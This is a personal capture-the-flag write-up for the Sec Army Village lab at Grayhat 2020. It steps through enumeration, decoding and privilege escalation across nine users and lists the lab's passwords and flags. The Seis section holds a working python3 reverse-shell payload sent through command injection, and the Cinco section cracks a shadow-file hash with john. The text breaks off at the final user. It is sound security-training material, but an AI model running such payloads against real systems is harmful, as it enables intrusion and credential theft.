# Grayhat Conference 2020
# Sec Army Village CTF
### This ctf was part of the annual grayhat conference. Sec Army CTF had a variety of challenges that helped me brush up on skills and gain knowledge on unknown before topics and technologies.

# ~$ whoami
### My name is Vasiliky Maria Bartolotta and I'm a Vulnerability Research Intern. I play ctf's in my spare time and research about low level exploitation and security in general.

# Table of Contents
1. [Uno](#uno)
2. [Dos](#dos)
3. [Tres](#tres)
4. [Cuatro](#cuatro)
5. [Cinco](#cinco)
6. [Seis](#seis)
7. [Siete](#siete)
8. [Ocho](#ocho)
9. [Nueve](#nueve)

# Writeup
### Uno

> The cero user credentials were provided by the secarmyvillage challenge modal in the challenges section, I used them to login as cero. I used cero to enumerate the system for open ports and services running.

> I used netstat to enumerate ports running in the system, I saw port 80 http open and listening on connections.




> I run a curl command to see what the http server will respond with.  




> There is a hidden directory that I need to find, I tried multiple url paths but kept receiving 404's, time to use an enumeration automation tool. I chose to use ffuf a web fuzzing tool to enumerate for url paths. Below you can see the command I used and the ffuf results.  
> 
> ffuf command:  
```
ffuf -w ~/wordlists/directory-list-2.3-medium.txt -u 'http://192.168.1.8/FUZZ' -o ./ffuf_results.txt -of csv 
```
> The command will FUZZ for every line contained in the wordlist I provided with -w and will save the output in csv format so I can use it to curl each path found.   



> For each path found I will format to columns in order to awk each structured url and pass it to curl with xargs and -L to follow any redirects.
```
column -t -s, ffuf_results.csv | awk  '{print $2}' | xargs curl -L
```


> Linux user uno password has been found as seen in the output of curl. Logging in on uno user gives me flag1.txt
```
flag1{fb9e88}
```
<br>

### Dos

> Uno user contains a readme.txt in its home directory, inside there is the dos user password so I login to dos with the password provided.  
> Cat'ed readme.txt on dos home directory:
```
You are required to find the following string inside the files folder:
a8211ac1853a1235d48829414626512a
```
> Listing the contents of the dos home directory shows that there is a files/ directory which contains 5001 file*.txt files. We need to search all these files for the string shown above.
>    
> Command to find the file:
```
grep -l 'a8211ac1853a1235d48829414626512a' files/*
```
> Result is file files/file4444.txt, cat'ing the file tells us that we need to look inside file3131.txt. Looking inside the file3131.txt shows us this interesting string that looks like base64 encoding.



> Decoding the string reveals something that looks like a zip file containing a directory challenge2 with two files flag2.txt & todo.txt. I will go ahead and change the file extension to zip and then unzip the file to reveal its contents.

```
cat encoded_text | base64 -d > decoded.zip && unzip decoded.zip
```



> The folder challenge2 contains the second flag and the todo.txt a secret token string as shown in the above image.

```
flag2{624a21}
```

> Listing the home directory of dos we can see a 1337.txt file which contains the following message:

```
Our netcat application is too 1337 to handle..
```

> Based on the keywords of the above message we can guess that an application is running on port 1337 and is accepting connections. We can observe that in the netstat we did at the cero user above.
>  

> Lets try connecting to the application on port 1337
```
nc localhost 1337
```



> Our random input sent to the application results to an invalid token error. We should try using the super secret token that we acquired by finding the challenge2 zip folder.



> After successfuly feeding the secret token to the application we get a response containing the tres user password.

<br>

### Tres
> The tres user contains 3 files in its home directory. The third flag is one of them:

```
flag3{ac66cf}
```
> After cat'ing the readme.txt we see the following message:

```
A collection of conditionals has been added in the secarmy-village binary present in this folder reverse it
and get the fourth user's credentials, if you have any issues with accessing the file you can head over to: 
https://mega.nz/file/XodTiCJD#YoLtnkxzRe_BInpX6twDn_LFQaQVnjQufFj3Hn1iEyU
```
> There is a file with the name secarmy-village running the file command reveals that it's of type ELF 64-bit compiled binary. Changing the permissions so I run the binary results to an error.

```
file secarmy-village
chmod +x secarmy-village
./secarmy-village
```

> Changing the permissions so I can run the binary, trying to run it results to an error.

```
./secarmy-village: error while loading shared libraries: libgo.so.16: cannot open shared object file: No such file or directory
```

> It cannot find a necessary shared library to execute. From here I decided to actually run the strings utility on the binary to see if maybe there is a hardcoded password or any useful information about its contents.

```
strings secarmy-village | grep -E '(password|cuatro)'
```

> Nothing was found. I looked at the strings output carefully and saw something that looked like a prompt for some key:

```
Welcome .Pleas
er th	key =
Agavv
0x41
e'sBc	dPial
ur usfcua9
o:p3dr00l1v4r3zct
```

> The last line looks like some kind of password, for cuatro as in cuatr**o:p3dr00l1v4r3zct**, I tried su'ing to the cuatro user with the password but it didn't work. After some time I tried again by deleting a character each time, and it worked! The password turned out to be: 
```
p3dr00l1v4r3z
```

### Cuatro 

> The cuatro user contained the flag4.txt as well as todo.txt:
```
flag4{1d6b06}
```
```
We have just created a new web page for our upcoming platform, its a photo gallery. You can check them out at 
/justanothergallery on the webserver.
```
> Looks like a web challenge, let's check it out.



> I looked at the sources folder and didn't find javascript files or any hints about the challenge. Looking at the network tab of developer tools did not show anything interesting apart from the number of images that are requested from the http server. All of them are qr codes so I pulled out my phone and scanned one of them out of curiosity.  
> 

> The qr codes had text encoded into them, I searched for a way to download every image and construct the message that the images formed using bash. 

```
wget -nd -r -A png http://192.168.1.8/justanothergallery/qr
```
> Above command downloads all qr code images recursively without creating directories and only of type png.

> There is an open source code reader which we can use to read the qr code images, zbarimg. I created the one liner below that returns the message in a readable format:

```
ls | sort -t'-' -k 2n | xargs zbarimg -q | awk '{sub(/:/," "); print $2}' | tr '\n' ' '
```
> It first prints the contents of the directory and sorts them by file number, passes them as arguments to zbarimg which in turn silently outputs the contents of each image, then replaces the unecessary format and beautifies the output. We get the password of the cinco user
```
ruy70m35
```




### Cinco 
> User cinco directory contains the 5th flag along and a readme.txt
```
flag5{b1e870}
```
```
Check for Cinco's secret place somewhere outside the house
```
> As I understand there is a secret directory outside of the home folder which is the filesystem root. There exists a /cinco-secrets directory as implied by the readme.txt. If you wanna search the filesystem for directories and files you can use the find command:

```
find /* 2>/dev/null | grep secret
```
> Redirect find command error output to /dev/null since we are going to get a ton of permission errors as user cinco.




> /cinco-secrets contains a shadow.bak which is the file that lists the linux user passwords in encrypted format. The file has the seis user encrypted password. I changed the permissions on the shadow.bak file to be able to read and write to it. The encrypted password starts with $6 so after googling I found out that it is of type sha512.

```
seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```
>  I grabbed the /etc/passwd file to use it with unshadow and join the files to a file that john the ripper can use to brute force the encrypted password using the hinted rockyou.txt wordlist.

```
unshadow passwd.txt shadow.bak > userpass.txt
john --wordlist=~/wordlists/rockyou.txt userpass.txt
john --list
```

> The seis password is:
```
Hogwarts
```

### Seis
> Su'ing in the seis user and grabbing flag6.txt:
```
flag6{779a25}
```
> The readme.txt points to another web application on the path /shellcmsdashboard. 



> I always do manual basic enumeration on web applications such as checking for a misconfigured .git folder to reconstruct codebase and trying to get .htaccess as well as robots.txt. The last one worked and had the following contents:

```
# Username: admin Password: qwerty
User-agent: *
Allow: /
```
> We can login with user admin and password qwerty, a text appears that says:



> A textbox appears and after inspecting the textbox name I tried to test for sql injection by inserting a single quote to break insecure queries. It didn't work. I finally intercepted the request with the burp proxy and sent a linux command in the comm parameter:



> To exploit this I sent a regular python3 reverse shell paylaod:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.3",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

> While on my machine listening to incoming connections on port 80 using:
```
nc -lvnp 80
```

> I got a shell as www-data




> Listing the files available on the directory /var/www/html/shellcmsdashboard found the password for the 7th user in file readme9213.txt:
```
password for the seventh user is 6u1l3rm0p3n473
```

### Siete
> Flag in home directory:
```
flag7{d5c26a}
```
> This user contains several files. A zip folder that is password protected, a key.txt that contains a single character and a hint.txt that says the following:
```
Base 10 and Base 256 result in Base 256!
```
> First thing I did was to use my favorite tool for analyzing possible encodings and ciphers of all types, CyberChef! I formatted the bytes and threw them on CyberChef to literally do its Magic, which is an algorithm to identify data properties. I selected intensive mode:

```
11 29 27 25 10 21 1 0 23 10 17 12 13 8
```



> Magic created a recipe with the correct parameters and the key.txt which contained the x value which will be used to perform the XOR on the bytes provided: 
> 

> Zip password:
```
secarmyxoritup
```

> Unzipping with the password found gives us the 8th user password:
```
m0d3570v1ll454n4
```

## Ocho
> Acquired flag8.txt
```
flag8{5bcf53}
```

> Ocho has a packet capture session:
```
keyboard.pcapng
```
> Time to open up a wireshark instance and take a look at the packets captured. I first filtered by http to see if I can find some low hanging fruits and follow tcp streams that might lead to valuable data. 




> For quite some time I couldn't find anything intersting, I even exported all http objects and saved all files transmitted in order to analyze them with bash commands. After carefully reviewing the packets I noticed an alphanumeric string in none.txt:




> I simply searched for a keyboard cypher decoder due to the packet capture filename and the QWERTY references in the text and got the 9th user's password.



> User nueve password:
```
355u4z4rc0
```

## Nueve
> The last ctf challenge and the user before reaching root level privelages. Flag number 9 acquired:
```
flag9{689d3e}
```
> The user contains a readme.txt with the following contents:

